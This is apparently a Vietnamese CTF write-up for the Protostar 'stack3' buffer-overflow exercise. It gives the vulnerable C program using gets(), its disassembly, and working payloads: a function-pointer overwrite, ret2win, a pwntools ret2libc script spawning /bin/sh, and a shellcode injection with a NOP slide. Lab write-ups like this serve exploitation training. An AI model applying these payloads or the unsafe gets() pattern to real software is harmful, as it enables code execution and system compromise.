

# stack3

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
 
void win()
{
  printf("code flow successfully changedn");
}
 
int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];
 
  fp = 0;
 
  gets(buffer);
 
  if(fp) {
      printf("calling function pointer, jumping to 0x%08xn", fp);
      fp();
  }
}
```

hàm main()



Bài này cũng tương tự các bài trước, ta chỉ cần tìm địa chỉ của hàm win rồi tìm cách gán cho biến fp.

```ASM (Intel syntax)
0x08048424 <+0>:     push   ebp    
0x08048425 <+1>:     mov    ebp,esp    
0x08048427 <+3>:     sub    esp,0x18    
0x0804842a <+6>:     mov    DWORD PTR [esp],0x8048540    
0x08048431 <+13>:    call   0x8048360 <puts@plt>    
0x08048436 <+18>:    leave      
0x08048437 <+19>:    ret
```

Ta có địa chỉ hàm win tại `0x08048424`

## Solution

### ghi đè fp

payload:`python -c 'print "a"*64+"\x24\x84\x04\x08"' | ./stack3`


### Ret2win

trước tiên ta cần truyền giá trị hợp lệ cho fp, mình sẽ để nó trỏ đến lệnh ngay sau call EAX. Sau đó ghi đè EIP bằng địa chỉ hàm win. Dùng cyclic và gdb tìm đc nốt phần padding phía sau là 12byte.
payload: `python2 -c 'print "a"*64+"\x77\x84\x04\x08"+"a"*12+ "\x24\x84\x04\x08"' | ./stack3`


## spawn shell

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = b"a"*64+p32(0x08048477)+b"a"*12   #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
#run process
p = process('./stack3')
p.sendline(payload)
p.interactive()
```


### inject shellcode

```python
from pwn import *
elf = context.binary = ELF('./stack1')

padding = b"a"*64+p32(0x08048477)+b"a"*12
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process(['./stack3'])
p.sendline(payload)
p.interactive()
```

